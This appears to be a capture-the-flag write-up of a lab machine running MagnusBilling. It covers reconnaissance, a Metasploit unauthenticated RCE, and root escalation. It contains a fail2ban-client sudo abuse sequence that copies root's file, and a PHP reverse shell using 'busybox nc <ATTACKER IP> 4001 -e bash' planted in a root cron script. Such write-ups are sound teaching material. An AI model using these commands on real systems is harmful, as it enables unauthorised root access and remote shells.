 
1. Basic nmap scan for discovery
<img width="638" height="297" alt="image" src="https://github.com/user-attachments/assets/bf8f16f6-8f9a-4a5a-8276-f5bc48831fd8" />

2. Fuzzing directories with ffuf
<img width="853" height="409" alt="image" src="https://github.com/user-attachments/assets/17887601-050a-493d-9c07-face8b82ad1d" />

<img width="853" height="560" alt="image" src="https://github.com/user-attachments/assets/0791fea6-9092-41f3-ac6c-9bec985e9480" />

3. Thought there was something in the login page, but appeared to be same error no matter the username:
<img width="462" height="395" alt="image" src="https://github.com/user-attachments/assets/a3eb64ff-3ff2-43b0-9298-1b4351fe907d" />

4. Tried burp suite, but didn't get very far here:


POST /mbilling/index.php/authentication/login HTTP/1.1
Host: 10.10.241.125
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 65
Origin: http://10.10.241.125
Connection: keep-alive
Referer: http://10.10.241.125/mbilling/
Cookie: PHPSESSID=qslgufb4llhp4k0572i69flq07
Priority: u=0

user=admin&password=A94A8FE5CCB19BA61C4C0873D391E987982FBBD3&key=

5. Fumbled around fuzzing for a while with not much luck. Eventually ran another nmap scan and discovered a missed port:

<img width="573" height="390" alt="image" src="https://github.com/user-attachments/assets/f7117805-bb80-4eac-a97c-922c6adde787" />

Magnus Billing is opensource billing software that uses Asterisk. 
https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=asterisk
There are exploits for both Magnus and Asterisk, but there is a remote command execution for magnus through Metasploit that might work:
https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/

Metasploit (exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258) worked and got user flag. I’m the ‘asterisk’ user. 
Other users: magnus, ssm-user, debian
no SUIDs
no writeable locations of use
no cron tab jobs
no password/token files
no file shares
no SSH keys
sudo -l : fail2ban-client

Tried going down a route with fail2ban other than getting a reverse shell as the same asterisk user. 

Googled fail2ban more and found this one that worked to copy the root.txt file to the /tmp folder:
https://vulners.com/packetstorm/PACKETSTORM:189989
    sudo /usr/bin/fail2ban-client restart
    sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'" 
    sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1

From what I understand, since user can run fail2ban-client with sudo, use it’s commands to execute your own command. In this case, you’re setting an action related to banning an ip and when that is executed, it will run the /bin/bash command to copy the file as root to a location the current user can read.

I still looked up some other write-ups to see if there were alternate ways of doing this and found:
https://domoon.medium.com/billing-thm-writeup-de780e9f8017

used ‘pspy64’ to see running processes and found a cron job running as root every minute. Had access to delete and recreate the file to get root.
* Cron runs this:
  sh -c php /var/www/html/mbilling/cron.php ..
* viewed this: /var/www/html/mbilling/cron.php
* cannot write to the file but own directory
* give yourself permission to write to directory: 
  chmod +w /var/www/html/mbilling
* Can’t write to cron.php, but can delete the file and create a new one
* Wrote it with a PHP rev shell
  <?php
  exec("busybox nc <ATTACKER IP> 4001 -e bash");
  ?>
* start netcat listener, Cron runs, user gets root


